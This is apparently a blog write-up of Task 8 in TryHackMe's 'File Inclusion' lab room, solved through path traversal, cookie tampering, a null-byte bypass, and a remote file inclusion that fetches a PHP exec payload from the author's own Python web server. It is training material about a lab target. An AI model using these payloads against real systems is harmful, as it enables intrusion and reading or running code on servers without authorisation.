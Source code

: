 ```yaml
---
title: "THM: File Inclusion Writeup"
emoji: "🧙‍♀️"

date: 2022-02-20 16:26

# Created: February 20, 2022 4:26 PM
# last-updated: February 20, 2022 10:42 PM
tags: 
- Cybersecurity
- File Inclusion
- THM

layout: post
headerImage: false
category: blog
---
```


## Hi there !

I was doing the [File Inclusion](https://tryhackme.com/room/fileinc) room on TryHackMe. Most of the tasks, you can follow the instructions; however, I found the last one is challenging, so I thought of do the write-up on the last task—Task 8, giving some my thought process. Let's get started!

## Task 8:

1. Capture Flag1 at `/etc/flag1`
    
    If you try to get the file from the input, nothing is responding back. You can also try on the URL `[http://MACHINE_IP/challenges/chall1.php?file=../../../../etc/flag1](http://MACHINE_IP/challenges/chall1.php?file=../../../../etc/flag1)` , there is nothing responded. Well, if you look at the `Network` tab on the Firefox and see that it's calling with `GET` method. As the hint suggests: try using `POST` method. Alright, in my case, I'm using the `curl` on command line:
    
    ```bash
    $: curl http://MACHINE_IP/challenges/chall1.php -X POST -d "file=/etc/flag1"
    ```
    
    Hooray, the flag has been revealed!
    
2. Capture Flag2 at `/etc/flag2`
    
    Let's go to `[http://MACHINE_IP/challenges/chall2.php](http://MACHINE_IP/challenges/chall2.php)` You will see as the attached below:
    
    ![Untitled]({{ site.baseurl }}/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled.png)
    
    There is no input form, hmm, try adding the parameter to the URL 🤔 Let's try, `[http://MACHINE_IP/challenges/chall2.php?file=../../../../etc/flag2](http://MACHINE_IP/challenges/chall2.php?file=../../../../etc/flag2)` Nothing happens.
    
    Let's look at the `Development tool`, something interesting might be there. Look at the `Network` tab, the request is calling with `GET`; what if it's a `POST` , I try `curl` as the previous exercise, but still nothing happens. Hmm, the hint says that **"Checks the cookie"**, alright, it shows `THM=Guest` , let's try changing to `THM=admin` (you can change the cookie on `Storage` tab), then refresh the page... Oo-oh, something's changed!
    
    ![Untitled]({{ site.baseurl }}/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%201.png)
    
    It has been revealed that there's the vulnerability on `cookie`, let's try changing to `/etc/flag2` There is some sort of input validation for `include()` function there, see below.
    
    ![Untitled]({{ site.baseurl }}/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%202.png)
    
    Fine, let's do the path traversal: `THM=../../../../etc/flag2` And we got it! I'm not gonna show the flag 🤭
    
    ![Untitled]({{ site.baseurl }}/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%203.png)
    
3. Capture Flag3 at `/etc/flag3`
    
    Let's go to the challenge 3 page. There is an input, so try getting `../../../../etc/flag3`
    
    ![Untitled]({{ site.baseurl }}/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%204.png)
    
    Seems like it sanitizes the input and adds `.php` to the file name, smart! But, what if we request it using `curl` with `POST` Let's try.
    
    ```bash
    $: curl http://MACHINE_IP/challenges/chall3.php -X POST -d "file=/etc/flag3%00"
    ```
    
    You will get a warning that the output can mess your terminal, so don't forget to pass the output into a file! and let's look at your output file! 😎
    
4. Gain RCE in **Lab #Playground** `/playground.php` with RFI to execute the `hostname` command. What is the output?
    
    Follow the `Task 6: Remote File Inclusion - RFI` lab, but instead of `<?PHP echo "Hello THM"; ?>` , you will do
    
    ```php
    <?PHP print exec('hostname'); ?>
    ```
    
    Before calling our `cmd.txt` , don't forget to launch the local server. You can use `http.server` in Python3:
    
    ```python
    $: python3 -m http.server 8080
    ```
    
    In my case, I'm using port 8080; when I call via the url, it will be `[http://MACHINE_IP/playground.php?file=http://LOCAL_IP:8080/cmd.txt](http://MACHINE_IP/playground.php?file=http://LOCAL_IP:8080/cmd.txt)` There we go! The flag is on the screen.
    

We’re done 🎉